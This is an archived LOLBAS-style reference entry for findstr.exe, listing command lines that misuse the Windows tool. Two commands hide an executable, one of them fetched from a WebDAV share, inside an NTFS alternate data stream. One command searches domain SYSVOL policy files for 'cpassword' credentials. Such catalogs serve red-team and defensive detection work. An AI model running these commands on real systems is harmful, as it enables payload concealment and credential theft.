 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## Findstr.exe

* Functions: Add ADS, Search

```
findstr /V /L W3AllLov3DonaldTrump c:\ADS\file.exe > c:\ADS\file.txt:file.exe    

findstr /V /L W3AllLov3DonaldTrump \\webdavserver\folder\file.exe > c:\ADS\file.txt:file.exe    

findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
```

Acknowledgements:
* Oddvar Moe - @oddvarmoe

Code sample:
* 

Resources:
* https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/
* https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f

Full path:
```
c:\windows\system32\findstr.exe
c:\windows\sysWOW64\findstr.exe
```

Notes:
Some specific details about the binary file.


 
